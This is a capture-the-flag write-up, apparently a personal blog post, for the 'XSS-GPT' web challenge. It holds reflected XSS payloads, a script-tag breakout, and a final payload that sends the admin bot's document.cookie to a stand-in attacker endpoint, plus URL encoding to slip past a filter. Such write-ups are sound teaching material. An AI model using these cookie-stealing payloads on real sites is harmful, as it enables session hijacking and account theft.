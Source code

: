 ```yaml
---
layout: post
title: "XSS-GPT (SKR CTF)"
date: 2023-09-30
categories: ["Cybersecurity", "Web Exploitation"]
---
```

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-instruction.png){:.align-center}

This is a Web category challenge. From the name of this challenge, we know that this challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability. The instructions said "*I built a chatgpt website*" and "*report to me if you found any bug*". This means that he is the administrator of the website, and if we found an  XSS vulnerability in the website, we need to report it to him. The website :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webpage.png){:.align-center}

The webpage looks like it's a chat application, which looks a little similar to ChatGPT. Testing this chat application :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-webpage.png){:.align-center}

It looks like the website asks for an API key before the user can use this web-based chat application. If we look at the HTML code of this website, we found that we don't need a real OpenAI API key because this website uses a placeholder value `("Bearer None")` for the API key, which is not a valid API key. Try to use `test123` for the API key :

- `http://skrctf.me:4000/?apiKey=test123`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-api-key-failed.png){:.align-center}

The first hint indicates that we should manipulate the URL parameter :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint1.png){:.align-center}

This challenge is named "XSS-GPT", so we can focus on finding the XSS vulnerability on this website. Testing a basic XSS attack :

- `<script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-result.png){:.align-center}

We get an error-like message. However, it's not an error. HTML code :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-html.png){:.align-center}

At line 11, the  opening `<script>` tag was used. The tag was then closed by our basic XSS script (`</script>`). Everything after the closing tag will become the content of the website. So we need to add the closing tag (`</script>`) before our XSS script :

- `</script><script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-success.png){:.align-center}

We successfully triggered a Reflected XSS. This means that we have found a Reflected XSS vulnerability. So we need to report to the admin of the website. There is a button named "*Report Admin*" at the bottom right :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button.png){:.align-center}

We need to know what this button does (in the HTML code) :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button-source.png){:.align-center}

It looks like the button executes `reportAdmin()` function. So we need to know what this function does. In the HTML code, before the HTML Style :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-function.png){:.align-center}

In `reportAdmin()` function :

1) **API Key Extraction** : The function extracts the API key from the URL using `const queryParams = URLSearchParams(window.location.search);` and `const apiKey = queryParams.get("apiKey")`.
2) **XHR Request** : It creates an XMLHttpRequest object (`xhttp`) to send a POST request to the "`reportAdmin`" endpoint.
3) **Request Data** : It sends the API key as a parameter in the request body using `xhttp.send("key="+encodeURIComponent(apiKey));`.
4) **Response Handling** : The function listens for the response and displays an alert message with "*Reported to admin!*" if the response status is 200.

The second hint indicates that we need to steal admin's cookie :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint2.png){:.align-center}

Under the second hint, we were given a JavaScript file, "*bot.js*" :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-bot-js.png){:.align-center}

The provided JavaScript file appears to be a PhantomJS script. PhantomJS is a **headless web browser scriptable with JavaScript**, often used for automation tasks. So this "*bot.js*" is a piece of PhantomJS script behind the website that acts as "*admin*" (the admin is a bot). The script uses `phantom.adCookie` to set a cookie named '*flag*' with a value of '*this_is_not_the_flag*'. This information indicates that the value of admin's cookie is our flag. So we need to steal the admin's cookie.

We can ease our task with Burp Suite. Intercepting a request :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-foxy.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-intercept.png){:.align-center}

Right-click on Burp Suite > Send to Repeater. Go to the Repeater tab. Now we can modify the request body with our XSS script. First, we need to test if our server endpoint receives a GET request from admin. We can use [Webhook.site](https://webhook.site/) as our server endpoint to monitor any request  :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webhook.png){:.align-center}

Use the unique URL provided in [Webhook.site](https://webhook.site/) as our server endpoint :

- `</script><script>var i=new Image;i.src="http://our-server-endpoint";</script>`
- [Steal Cookie with Reflected XXS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss.png){:.align-center}

As we can see, our server endpoint received a GET request from admin :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-triggered.png){:.align-center}

Now, we can add `+document.cookie;` in our XSS script. However, after we inject our XSS script with `+document.cookie;` and get the "*Reported to admin!*" message (which indicates that the injection was successful), our server endpoint no longer receives a GET request from admin. This indicates that there is some kind of input filtering that filters `+document.cookie;`. We can use basic encoding, such as URL encoding. On Burp Suite, highlight `+document.cookie;`, right-click > Convert selection > URL > URL-encode key characters.

- `</script><script>var i=new Image;i.src="http://our-server-endpoint/?"+document.cookie;</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie-success.png){:.align-center}

We successfully steal the admin's cookie!
## Walkthrough

https://drive.google.com/file/d/1-zrxlZRYWRVV7-kFzA0mA6ENO9XpE6HR/view?usp=drivesdk
